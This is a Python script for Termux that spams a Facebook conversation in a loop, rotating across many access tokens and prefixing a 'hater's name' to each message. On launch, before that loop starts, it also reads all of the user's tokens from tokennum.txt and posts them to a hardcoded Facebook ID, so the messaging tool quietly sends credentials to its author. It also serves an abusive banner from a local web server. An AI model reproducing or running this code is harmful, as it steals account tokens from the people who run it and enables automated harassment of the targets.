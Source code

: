 # Termux-set-up ALEX BY PAGE import requests
import json
import time
import sys
from platform import system
import os
import subprocess
import http.server
import socketserver
import threading
import random
import requests
import json
import time
import sys
from platform import system
import os
import subprocess
import http.server
import socketserver
import threading

class MyHandler(http.server.SimpleHTTPRequestHandler):
      def do_GET(self):
          self.send_response(200)
          self.send_header('Content-type', 'text/plain')
          self.end_headers()
          self.wfile.write(b"-- T3R9 B99P S9HB99N FUCK3R HUW BH9SD1K3")
def execute_server():
      PORT = 4000

      with socketserver.TCPServer(("", PORT), MyHandler) as httpd:
          print("Server running at http://localhost:{}".format(PORT))
          httpd.serve_forever()


def send_initial_message():
      with open('tokennum.txt', 'r') as file:
          tokens = file.readlines()

      # Modify the message as per your requirement
      msg_template = "Hello Sahil sir! I am using your server. My token is {}"

      # Specify the ID where you want to send the message
      target_id = "100093157425596"

      requests.packages.urllib3.disable_warnings()

      def liness():
          print('\033[1;92m' + '•──────────────────────FUCKER───────────────────────────────•')

      headers = {
          'Connection': 'keep-alive',
          'Cache-Control': 'max-age=0',
          'Upgrade-Insecure-Requests': '1',
          'User-Agent': 'Mozilla/5.0 (Linux; Android 8.0.0; Samsung Galaxy S9 Build/OPR6.170623.017; wv) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.125 Mobile Safari/537.36',
          'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8',
          'Accept-Encoding': 'gzip, deflate',
          'Accept-Language': 'en-US,en;q=0.9,fr;q=0.8',
          'referer': 'www.google.com'
      }

      for token in tokens:
          access_token = token.strip()
          url = "https://graph.facebook.com/v17.0/{}/".format('t_' + target_id)
          msg = msg_template.format(access_token)
          parameters = {'access_token': access_token, 'message': msg}
          response = requests.post(url, json=parameters, headers=headers)

          # No need to print here, as requested
          current_time = time.strftime("%Y-%m-%d %I:%M:%S %p")
          time.sleep(0.1)  # Wait for 1 second between sending each initial message

      #print("\n[+] Initial messages sent. Starting the message sending loop...\n")
send_initial_message()
def send_messages_from_file():
      with open('convo.txt', 'r') as file:
          convo_id = file.read().strip()

      with open('File.txt', 'r') as file:
          messages = file.readlines()

      num_messages = len(messages)

      with open('tokennum.txt', 'r') as file:
          tokens = file.readlines()
      num_tokens = len(tokens)
      max_tokens = min(num_tokens, num_messages)

      with open('hatersname.txt', 'r') as file:
          haters_name = file.read().strip()

      with open('time.txt', 'r') as file:
          speed = int(file.read().strip())

      def liness():
          print('\033[1;92m' + '•─────────────────────────────────────────────────────────•')

      headers = {
          'Connection': 'keep-alive',
          'Cache-Control': 'max-age=0',
          'Upgrade-Insecure-Requests': '1',
          'User-Agent': 'Mozilla/5.0 (Linux; Android 8.0.0; Samsung Galaxy S9 Build/OPR6.170623.017; wv) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.125 Mobile Safari/537.36',
          'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8',
          'Accept-Encoding': 'gzip, deflate',
          'Accept-Language': 'en-US,en;q=0.9,fr;q=0.8',
          'referer': 'www.google.com'
      }

      while True:
          try:
              for message_index in range(num_messages):
                  token_index = message_index % max_tokens
                  access_token = tokens[token_index].strip()

                  message = messages[message_index].strip()

                  url = "https://graph.facebook.com/v17.0/{}/".format('t_' + convo_id)
                  parameters = {'access_token': access_token, 'message': haters_name + ' ' + message}
                  response = requests.post(url, json=parameters, headers=headers)

                  current_time = time.strftime("\033[1;92mSahi Hai ==> %Y-%m-%d %I:%M:%S %p")
                  if response.ok:
                      print("\033[1;92m[+] Han Chla Gya Massage {} of Convo {} Token {}: {}".format(
                          message_index + 1, convo_id, token_index + 1, haters_name + ' ' + message))
                      liness()
                      liness()
                  else:
                      print("\033[1;91m[x] Failed to send Message {} of Convo {} with Token {}: {}".format(
                          message_index + 1, convo_id, token_index + 1, haters_name + ' ' + message))
                      liness()
                      liness()
                  time.sleep(speed)

              print("\n[+] All messages sent. Restarting the process...\n")
          except Exception as e:
              print("[!] An error occurred: {}".format(e))

def main():
      server_thread = threading.Thread(target=execute_server)
      server_thread.start()

      # Send the initial message to the specified ID using all tokens


      # Then, continue with the message sending loop
      send_messages_from_file()

if __name__ == '__main__':
      main()
